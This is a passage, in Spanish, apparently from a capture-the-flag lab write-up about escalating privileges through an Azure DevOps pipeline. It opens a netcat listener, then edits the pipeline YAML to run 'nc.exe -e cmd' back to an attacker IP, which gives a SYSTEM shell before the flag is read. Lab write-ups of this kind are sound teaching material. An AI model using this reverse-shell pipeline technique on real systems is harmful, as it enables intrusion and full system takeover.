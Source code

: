 ![Worker-mulit-lie-scrit](/assets/images/Worker-mulit-line-script.png) 
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Editamos el pipeline script

    ```yaml
    trigger:
    - master

    pool: 'Setup'

    steps:
    - script: echo Hello, world!
      displayName 'Run a one-line script'

    - script: C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.10 443
      displayName: 'Run a multi-line script'
    ```

1. Le damos a ejecutar

```bash
whoami

nt authority\system
```

Ya podemos leer la flag.
